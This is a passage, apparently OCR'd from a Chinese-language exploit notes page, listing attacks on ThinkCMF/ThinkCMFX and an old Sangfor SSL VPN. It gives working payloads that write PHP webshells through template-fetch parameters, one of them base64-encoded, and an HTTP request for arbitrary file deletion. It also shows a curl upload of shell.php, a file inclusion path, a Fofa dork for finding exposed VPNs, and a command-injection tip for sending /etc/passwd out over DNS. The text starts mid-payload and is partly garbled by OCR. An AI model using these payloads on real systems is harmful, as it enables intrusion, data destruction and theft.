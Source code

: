    ateFile=/../../../public/index&content=<%3fphp+file_put_contents('m.php','<%3fphp+eval($POST[])%3b');?>&prefix=
   第 三 处
    /index.php?a=fetch&templateFile=public/index&prefix=''&content=<php file_put_contents('test.php','<?php phpinfo(); ?>')</php>
   第四处/index.php?a=fetch&content=<?php+file_put_contents("mrxn.php", base64_decode("PD9waHAgZXZhbCgkX1BPU1RbIjAwMCJdKTs/Pg==
   "));
   **任意文件删除**-只能windows删除
   在用户上传头像处存在任意文件删除漏洞，发送如下数据包后，会删除网
   站根目录下一个名为 test.txt 的文件。（该漏洞仅能在 Windows 下触发）
   `POST /ThinkCMFX/index.php?g=User&m=Profile&a=do_avatar&` 
   `HTTP/1.1`
   `Host: localhost`
   `Cookie: PHPSESSID=bggit7phrb1dl99pcb2lagbmq0;`
   `Connection: close`
   `Content-Type: application/x-www-form-urlencoded`
   `Content-Length: 27`
   `imgurl=......\test.txt`
   **任意文件上传**
   在 ThinkCMFX2.2.3 
   最终版中，存在一处任意文件上传（需要普通用户权限，默认可注册）
   curl -F "file=@/tmp/shell.php" -X "POST" -b 
   'PHPSESSID=qekmttucmue6vv41kpdjghnkd0;' 
   'http://127.0.0.1/ThinkCMFX/index.php?g=Asset&m=Ueditor&a=upload
   &action=uploadfile'
   **任意文件包含**（读取数据库配置等等）
   /index.php?a=display&templateFile=README.md

## 深信服VPN相关

1. 漏洞简介
   深信服 VPN 某个特定产品存在远程代码执行, 2019 攻防演练使用过
2. 影响组件
   深信服 VPN
3. 漏洞指纹
   Set-Cookie: TWFID=welcome to ssl vpn Sinfor

4. Fofa Dork
   header="Set-Cookie: TWFID="

5. 漏洞分析
   深信服vpnweb登录逆向学习 – potatso – 博客园
   https://www.cnblogs.com/potatsoSec/p/12326356.html

6. 漏洞利用
   （简单的命令注入）
   wget -t %d -T %d --spider %s

7. 利用技巧
   该 版 本 深 信 服 VPN 属 于 相 对 早 期 的 版 本 , 大 概 2008 年 左 右 , 
   但目前还有761个ip开放在公网
   该 版 本 较 低 , whomai 不 存 在 , 可 以 使 用 uname, 
   这里没有空格可dns传出来
   去除空格也简单 cat /etc/passwd | tr " \n" "+|"
